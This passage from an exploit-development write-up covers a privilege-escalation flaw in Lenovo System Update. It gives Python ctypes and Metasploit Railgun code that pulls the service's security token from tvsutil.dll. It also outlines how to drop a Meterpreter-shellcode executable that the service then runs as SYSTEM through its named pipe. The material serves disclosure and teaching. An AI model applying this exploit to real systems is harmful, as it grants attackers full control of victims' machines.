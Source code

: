 The following code gives a quick example how this can be done in Python by using [Ctypes](https://docs.python.org/2/library/ctypes.html2). Please note that you will need a 32 bit version of Python to make this work.

```Python
import ctypes

string_buffer = ctypes.create_unicode_buffer(256)
path = "C:\\exploitdev\\lenovo\\tvsutil.dll"
utilDll = ctypes.CDLL(path)

utilDll.GetSystemInfoData(ctypes.byref(string_buffer))

print string_buffer.value
```

At this point, we have a pretty good understanding of the System Update code, a simple working PoC exploit and we know how the security code is created. This should be sufficient to write the Metasploit module.

Metasploit module
-----------------
We will create a privilege escalation module that can be executed from a low privileged Meterpreter session. The basic Idea is to write create a Executable with Meterpreter shellcode
on the fly and copy it over to our target. Then we use the System Update service to call this executable with SYSTEM privileges.  

Let's recap the exploitation steps:

1. Get the directory of the Lenovo System Update Installation
2. Start the System Update Service via ConfigService.exe
3. Get the security token from tvsutil.dll
4. Create the new executable and copy it to the target system
5. Call the executable by sending the command to the SUPipeServer named pipe
6. Stopping the service (again via ConfigService.exe)
7. Enjoy our escalated Meterpreter shell :-)

I won't write down the complete ruby code here, instead I will only focus on the difficult
parts. You can [get the exploit module here...](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/lenovo_systemupdate.rb)

### Getting the System Update directory
We need the directory for various calls, so lets get this first. I decided to extract it from
the details of the System Update Service:

```ruby
su_directory = service_info('SUService')[:path][1..-15]
```

### Getting the security token
Metasploits version of Python Ctype is called Railgun which can be used to load/call code from
arbitary DLLs. GetSystemInfo expects a writeable pointer to a WCHAR array.

```ruby
def get_security_token(lenovo_directory)
  unless client.railgun.get_dll('tvsutil')
    client.railgun.add_dll('tvsutil', "#{lenovo_directory}\\tvsutil.dll")
    client.railgun.add_function('tvsutil', 'GetSystemInfoData', 'DWORD', [['PWCHAR', 'systeminfo', 'out']], windows_name = nil, calling_conv = 'cdecl')
  end

  dll_response = client.railgun.tvsutil.GetSystemInfoData(256)

  dll_response['systeminfo'][0,40]
end
```

